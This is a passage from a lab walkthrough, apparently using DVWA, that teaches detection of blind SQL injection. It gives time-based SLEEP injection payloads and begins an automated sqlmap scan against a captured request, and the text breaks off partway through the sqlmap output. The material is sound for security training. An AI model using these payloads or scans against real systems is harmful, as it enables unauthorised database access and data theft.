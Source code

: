 We know at least one of values (' or ") should force a SQL error, but in this case, neither value returns a SQL error. However, other techniques reveal if SQL statements can be modified. Try the following requests manually. Observe the delay before the page loads.

```
100 AND (SELECT 9999 FROM (SELECT(SLEEP(5)))randomTable)

100 OR (SELECT 9999 FROM (SELECT(SLEEP(5)))randomTable)
```

The AND statement forced a 5 second delay before the page loaded. The delay may be subtle and easy to overlook. The same request can be submitted using Burp's Repeater tool. The 5 secod delay is easily noticed using Repeater.

The OR statement returned a SQLi result. That result from the OR statement is unique to this application. OR statements will not always return results when using delay-based blind SQLi. 

These statements confirm that the application is vulnerable to SQLi.

## Automating Blind SQLi with sqlmap
### Challenge 2: Detect the DBMS and Confirm SQLi Vulnerability

Start with a basic scan, but first flush and purge sqlmap's cache. The bold sections emphasize the results we are interested in.

```
sqlmap --flush-session --purge
        ___
       __H__                                                                                              
 ___ ___[,]_____ ___ ___  {1.6.7#stable}                                                                  
|_ -| . ["]     | .'| . |                                                                                 
|___|_  [)]_|_|_|__,|  _|                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:12:55 /2022-11-15/

[08:12:55] [INFO] purging content of directory '/home/kbarton/.local/share/sqlmap'...

[*] ending @ 08:13:17 /2022-11-15/

```
Now, start a new attack.

<pre>
sqlmap -r dvwa-b.txt                
        ___
       __H__                                                                                              
 ___ ___[(]_____ ___ ___  {1.6.7#stable}                                                                  
|_ -| . [,]     | .'| . |                                                                                 
|___|_  [)]_|_|_|__,|  _|                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                              
